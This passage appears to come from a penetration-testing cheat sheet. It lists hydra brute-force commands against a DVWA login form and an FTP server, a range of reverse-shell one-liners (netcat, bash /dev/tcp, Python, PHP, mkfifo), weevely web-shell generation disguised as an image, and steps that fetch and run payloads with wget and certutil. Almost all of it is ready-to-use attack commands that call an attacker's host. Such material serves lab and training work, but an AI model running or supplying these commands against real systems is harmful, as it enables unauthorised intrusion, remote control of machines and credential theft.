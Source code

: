 ##### Website Login
- Login page 
- http://127.0.0.0/DVWA/vulnerabilities/brute/index.php
- `hydra -l admin -P /usr/share/wordlists/rockyou.txt  127.0.0.1 http-post-form "/DVWA/vulnerabilities/brute/index.php:userField=^USER^:passwordField=^PASS^"`



# 5. netcat <a name="nc"></a>
- __`nc -e /bin/sh 10.10.161.13 4545`__
- __`nc -lvnp 2323`__
```php
<?php
 exec("/bin/bash -c 'bash -i >& /dev/tcp/attackerip/553 0>&1'");
?>
```
```Bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<Your_ip>",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
##### weevely
- `weevely generate password ~/Desktop/shell.jpg`
- `weevely <url_where_the_file_uploaded>/shell.jpg/shell.php password`

### If you have commands to enter then use the below scripts
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <Your_ip> 1234 > /tmp/f
```
```
wget 10.8.1.72/shell.sh && bash shell.sh
```
__Download the reverse shell in windows__
  - > __First we need to host the file in your kali linux__
    - __`cd /usr/share/windows-binaries/`__
    - __`python -m SimpleHTTPServer 80`__
  - > __Go to the target windows system type the below command in the `cmd`__
    - __`certutil -urlcache -f http://<attacker_ip>/nc.exe net.exe`__
  - > __run the below command in kali linux__
    > __`nc -nvlp 1234`__
  - > __we need to run the file in target system__
    - __`new.exe -nv <attacker ip> 1234 -e cmd.exe`__
   


# 5. FTP <a name="ftp"></a>
- `ftp  192.168.112.50 21`
- __user:anonymous__
- __pass:__
- `wget -r ftp://anonymous:anonymous@192.168.204.157/`
- to upload a file use ```put <filename>```
- to download a file use ```get <filename>```
- `hydra -L /unix_users.txt -P /unix_passwords.txt 192.168.112.50 ftp`
